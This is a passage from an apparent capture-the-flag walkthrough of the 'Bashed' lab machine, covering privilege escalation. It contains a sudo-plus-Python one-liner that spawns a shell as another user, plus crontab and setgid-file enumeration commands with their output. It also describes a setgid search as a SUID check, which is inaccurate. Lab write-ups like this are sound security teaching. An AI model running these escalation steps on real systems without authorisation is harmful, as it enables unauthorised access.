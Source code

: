 We can now read the user flag present at `/home/arrexel/user.txt`.

## Privilege Escalation

Now that we have access as `www-data` our next target is to get root of this machine. The first thing that we can check would be the commands that we can run as root or other users.

```
$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

It looks like we can run all the commands as user `scriptmanager`. So, we can use [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) with Python to get a shell as `scriptmanager`.

```
$ sudo -u scriptmanager python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
sudo -u scriptmanager python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
scriptmanager@bashed:/home/arrexel$ whoami
whoami
scriptmanager
```

The next task is to further escalate our privileges and become root. So, we can again try to check the output of `sudo -l` for `scriptmanager` but it won't work this time as it asks for password which we don't know. A few other things that we can check for would be cronjobs and files that have their SUID bit set.

```
$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
$ find / -perm /2000 2> /dev/null
find / -perm /2000 2> /dev/null
/var/local
/var/mail
/var/cache/man
/run/log/journal
/run/log/journal/37f474e246e601006b77c9705a259ee9
/sbin/pam_extrausers_chkpwd
/sbin/unix_chkpwd
/usr/local/share/fonts
/usr/local/share/xml
/usr/local/share/xml/declaration
/usr/local/share/xml/entities
```
